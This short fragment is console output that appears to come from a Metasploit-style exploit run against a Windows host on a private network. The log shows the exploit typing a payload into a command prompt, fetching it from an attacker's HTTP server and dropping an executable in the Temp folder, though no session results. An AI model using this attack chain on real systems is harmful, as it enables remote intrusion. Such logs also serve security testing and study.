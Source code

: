 ```
[*] 192.168.2.95:9512 - Sending handshake part 2
[*] 192.168.2.95:9512 - Opening Start Menu
[*] 192.168.2.95:9512 - Opening command prompt
[*] 192.168.2.95:9512 - Typing out payload
[*] 192.168.2.95:9512 - Using URL: http://192.168.2.199:8080/
[*] 192.168.2.95:9512 - Attempting to pull down payload
[*] 192.168.2.95:9512 - Attempting to open payload
[*] 192.168.2.95:9512 - Server stopped.
[!] 192.168.2.95:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\tapEZnGskY.exe' on the target
[*] Exploit completed, but no session was created.
```
